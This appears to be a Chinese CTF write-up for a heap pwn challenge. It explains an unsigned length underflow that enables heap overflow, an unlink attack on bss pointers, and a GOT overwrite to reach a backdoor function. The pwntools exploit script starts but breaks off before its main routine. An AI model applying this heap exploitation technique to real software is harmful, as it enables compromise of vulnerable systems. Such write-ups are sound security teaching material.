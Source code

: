 是一道堆题，我就知道师傅们说只出栈相关的题目是骗人的...

检查二进制文件发现可以改写got表，在IDA中逆向发现在0x400C9F有一个白给的后门函数，于是猜测可能是修改got表调用该后门函数。

程序本身有**分配**、**编辑**和**释放**堆块的功能，堆块的指针存放在bss段，并且不存在悬挂指针。那就只能想办法堆溢出构造unlink，控制bss区，间接控制堆块指针，从而达到任意写来修改got表。

溢出点在用作输入的函数，为了末尾置\0，输入时会做 **len-1** 运算，如果len为0就会发生无符号整数溢出，导致创建堆块时可以输入任意长度字节。

于是大致的堆块分布就有了：

```
------------------------ 0x40
用于构造fakechunk
------------------------ 0x20 “malloc(0)”
用于溢出修改下一个堆块
------------------------ 0x100
修改本堆块的prev_size和size并
释放，造成unlink
------------------------ 0x20
用来分隔，防止合并时触发堆块回收
而报错
------------------------ top chunk
....
```

接下来构造exp：

```python
from pwn import *

#p = process("./time")
p = remote("pwn.challenge.mini.lctf.online",10065)
elf = ELF("./time")
libc = ELF("libc.so.6")

atoi_got = elf.got[b"atoi"]
back_door = 0x400C9F

context.log_level = "debug"

def setplan(size:int,content):
    p.recvuntil(b"Your choice : ")
    p.sendline(b"1")
    p.recvuntil(b"How many minutes will it take you to finish?\n")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content of the plan: ")
    p.sendline(content)
    
def edit(idx:int,size:int,content):
    p.recvuntil(b"Your choice : ")
    p.sendline(b"2")  
    p.recvuntil(b"Index : ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"How many minutes will it take you to finish?\n")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content of the plan: ")
    p.sendline(content)    
    
def end(idx:int):
    p.recvuntil(b"Your choice : ")
    p.sendline(b"3")  
    p.recvuntil(b"Index : ")
    p.sendline(str(idx).encode())
    
    
def exp():
```